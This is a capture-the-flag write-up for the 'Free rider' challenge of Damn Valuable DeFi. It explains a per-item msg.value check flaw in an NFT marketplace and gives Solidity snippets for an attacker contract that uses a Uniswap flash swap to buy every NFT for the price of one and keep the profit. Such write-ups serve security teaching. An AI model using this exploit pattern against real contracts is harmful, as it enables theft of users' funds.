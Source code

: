 ## Free rider

### Challenge description

> A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.
>
> A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.
>
> You want to build some rep with this buyer, so you've agreed with the plan.
>
> Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant. 

### Solution

The FreeRiderNFTMarketplace contract has a vulnerability in `_buyOne()` where `msg.value` is checked and compared to the price of the NFTs which we want to bulk buy through `buyMany()`. However, the comparison is *individually* made for *each* NFT we try to purchase with `buyMany()`. This opens up the possibility of buying *all* NFTs we order for the price of the *highest* one alone, making all others free. 

In this case, we can exploit this by sending 15 ether, which ends up covering for *all* of them (as opposed to 15 * 6 = 90 ether), thereby netting us +75 ether.

To exploit this, we first need to code a contract, as it's the only way to take the flash loan from uniswap.

The attacker contract should have a function which calls the `swap()` function and routes its internal `uniswapV2Call()` call to a function inside of our contract, so we must override the `uniswapV2Call()` function imported from the IUniswapV2Callee interface.

In my case, since we only need WETH, I made the `flashSwap()` function only take amounts of WETH in count:

```cs
function flashSwap(uint256 _amount) external {
    // we want to specifically borrow weth
    uint256 amount0 = pair.token0() == weth ? _amount : 0;
    uint256 amount1 = pair.token1() == weth ? _amount : 0;
    
    // encoded data for `swap` to understand it's a flashloan and not just a swap
    bytes memory data = abi.encode(weth, _amount);
    pair.swap(amount0, amount1, address(this), data);
}
```

Then within the `uniswapV2Call()` function we have already received the tokens, so we can now do stuff with them, in this case, the first thing we need to do is convert the WETH to ETH, as the marketplace only accepts ETH:

```cs
IERC20(weth).approve(weth, type(uint256).max);
weth.functionCall(abi.encodeWithSignature("withdraw(uint256)", amount));
```

All we need to take is 15 ether, as it's all needed to take all the NFTs from the marketplace.

After withdrawing the ether, I create an array of integers with all the token IDs for the NFTs we want to buy. I defined this function to generate a dynamic array of integers with values from 0 to `size`:

```cs
function arrayOfIntegers(uint256 size) private returns (uint256[] memory) {
    uint256[] memory uintArray = new uint256[](size);
    for (uint256 i = 0; i < size; i++) {
        uintArray[i] = i;
    }
    return uintArray;
}
```

I'm sure there's much better ways to do this, but here we are. Anyway, With this function I generate the array:

```cs
uint256 amountOfOffers = marketplace.amountOfOffers();
uint256[] memory tokenIdsArray = arrayOfIntegers(amountOfOffers);
```

Which must be passed to the marketplace's `buyMany()` function along with the 15 ether:

```cs
marketplace.buyMany{value: amount}(tokenIdsArray);
```

Then the NFTs must be transferred to the buyer, so we loop over token IDs and perform a `safeTransferFrom()`, I coded a short function for this to keep `uniswapV2Call()` cleaner:

```cs
function bulkSafeTransferNFT(uint256[] memory tokenIds) private {
    for (uint256 i = 0; i < tokenIds.length; i++) {
        nft.safeTransferFrom(address(this), address(buyer), tokenIds[i]);
    }
}
```

Then I call this function to send the corresponding purchased tokens to the buyer, so the attacker can get the payment for them:

```cs
bulkSafeTransferNFT(tokenIdsArray);
```

Then the amount to repay has to be computed, as there's a 0.3% fee on top of the loan taken from Uniswap:

```cs
uint256 amountToRepay = amount + (((amount*3)/997)+1);
```

Then the loan can be repayed depositing the ETH to get WETH and transferring the WETH back into the pair address:

```cs
weth.functionCallWithValue(abi.encodeWithSignature("deposit()"), amountToRepay);
IERC20(weth).transfer(address(pair), amountToRepay);
```

Then finally I call a `recoverETH()` function I coded into the contract to obtain the net profits from the marketplace exploit:

```cs
function recoverETH() external {
    owner.sendValue(address(this).balance);
}
```

Where `owner` is the attacker address.

It's important to note that there should be a `onERC721Received()` function which allows the contract to receive the NFTs through the marketplace's safe transfer call.

Also, the contract needs to have a fallback function to receive Ether, as the marketplace will forward some when the purchases are made.
